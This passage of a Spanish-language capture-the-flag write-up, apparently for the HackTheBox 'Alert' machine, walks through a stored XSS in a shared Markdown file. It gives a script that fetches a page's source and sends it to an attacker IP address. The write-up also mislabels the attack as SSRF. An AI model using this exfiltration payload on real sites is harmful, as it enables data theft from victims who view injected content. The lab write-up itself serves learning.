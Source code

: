 Ok ya tenemos un vector de ataque, no podemos robar cookies  de sección por que este archivo solo lo estamos viendo nosotros, por ende debemos buscar una forma de hacer una Revershell o algo que nos permite ver mas información 

# Ataque XSS y SSRF 

Bien ya sabemos que podemos inyectar código JS y no podemos robar cookies de sección, entonces nuestro objetivo será visualizar el código fuente de  la pagina, par lo cual ocuparemos este script, estp ejecuta una accion involuntaria de quien lo vea, esto se le conoce como un ataque de tipo SSRF

```js
<script>
fetch("http://alert.htb/").then(response => response.text()).then(data => {
fetch("http://10.10.15.69:443/?data=" + encodeURIComponent(data));
})
.catch(error => console.error("Shhhhhhh ", error));
</script>
```

Este escript no permite obtener todo el código fuente de la pagina que indiquemos, en este caso veremos que tenemos en la raiz, el cual apunte lo mas seguro al index.php, bien para que funcione aremos estos pasos 

Primero cargaremos nuestro archivo con el script JS y cuando lo muestre daremos click a nuestro boton de `Share Markdown`

![paste](./Images/6.jpeg)

Esto no redirige a otra pagina y nos generara un link 

![paste](./Images/7.jpeg)
